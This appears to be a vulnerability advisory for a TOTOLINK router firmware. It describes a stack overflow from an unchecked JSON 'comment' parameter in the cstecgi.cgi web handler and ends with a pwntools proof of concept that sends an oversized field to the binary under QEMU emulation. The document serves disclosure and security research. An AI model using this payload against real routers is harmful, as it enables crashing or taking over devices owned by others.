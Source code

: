 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=2
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## Affected version

V4.3.0cu.7647_B20210106

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_00418c24` (at address 0x418c24) gets the JSON parameter `comment`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow:  

<img src="img/1.png" alt="1.png" style="zoom:50%;" />

## POC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setPortForwardRules",
    "addEffect": "0",
    "comment": "A"*0x200,
}
data = json.dumps(data)
print(data)

argv = [
    "qemu-mips-static",
    "-g", "1234",
    "-L", "./lib",
    "-E", "LD_PRELOAD=./hook.so",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)

a.sendline(data.encode())

a.interactive()
```

